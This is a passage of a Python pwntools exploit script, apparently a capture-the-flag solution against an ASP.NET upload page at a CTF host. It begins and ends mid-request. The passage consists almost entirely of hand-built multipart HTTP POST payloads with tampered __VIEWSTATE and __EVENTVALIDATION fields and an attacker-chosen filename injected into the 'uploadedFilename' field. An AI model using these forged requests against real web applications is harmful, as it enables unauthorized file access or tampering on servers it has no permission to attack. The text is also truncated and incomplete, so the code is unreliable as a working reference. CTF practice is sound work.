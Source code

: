 ```python

{}
------WebKitFormBoundaryZiSaf9FJ6PtAeIM5
Content-Disposition: form-data; name="button1"

Upload
------WebKitFormBoundaryZiSaf9FJ6PtAeIM5
Content-Disposition: form-data; name="uploadedFilename"

------WebKitFormBoundaryZiSaf9FJ6PtAeIM5
Content-Disposition: form-data; name="uploadedFilenameTag"

xvvJTvo9RYTqWsgJMNLZLiEwoJ4eF5uR/hCW+FgYp6Y=
------WebKitFormBoundaryZiSaf9FJ6PtAeIM5
Content-Disposition: form-data; name="__EVENTVALIDATION"

/wEdAAEAAAD/////AQAAAAAAAAAPAQAAAAUAAAAIyd/IalikKYp4o/TJEB6bjEPD+b8LAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAOTyO0VpwYzoHI+eXiWfAGvnzmaoGBHm77uPr8qGQH1E
------WebKitFormBoundaryZiSaf9FJ6PtAeIM5--'''.format(filename).replace('\n', '\r\n') + ' '*100
    p.send(payload)
    p.interactive()
    
def compress(filename, tag):
    p = remote('dream.chal.ctf.westerns.tokyo', 80)
    payload = u'''POST /upload.aspx HTTP/1.1
Host: dream.chal.ctf.westerns.tokyo
Connection: keep-alive
Content-Length: 1730
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dream.chal.ctf.westerns.tokyo
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycTTUhLx8GPsIrRrB
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://dream.chal.ctf.westerns.tokyo/upload.aspx
Accept-Encoding: gzip, deflate
Accept-Language: ko,en-US;q=0.9,en;q=0.8,ko-KR;q=0.7
Cookie: ASP.NET_SessionId=AEDE0033A82E6358B8C052CA

------WebKitFormBoundarycTTUhLx8GPsIrRrB
Content-Disposition: form-data; name="__VIEWSTATE"

/wEMAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALMwDjJWVIJvIW8qNp8fjXqX3h5GVcJ5o5Yra9F5KfHb
------WebKitFormBoundarycTTUhLx8GPsIrRrB
Content-Disposition: form-data; name="file1"; filename=""
Content-Type: application/octet-stream

------WebKitFormBoundarycTTUhLx8GPsIrRrB
Content-Disposition: form-data; name="filename1"

test
------WebKitFormBoundarycTTUhLx8GPsIrRrB
Content-Disposition: form-data; name="uploadedFilename"

{filename}
------WebKitFormBoundarycTTUhLx8GPsIrRrB
```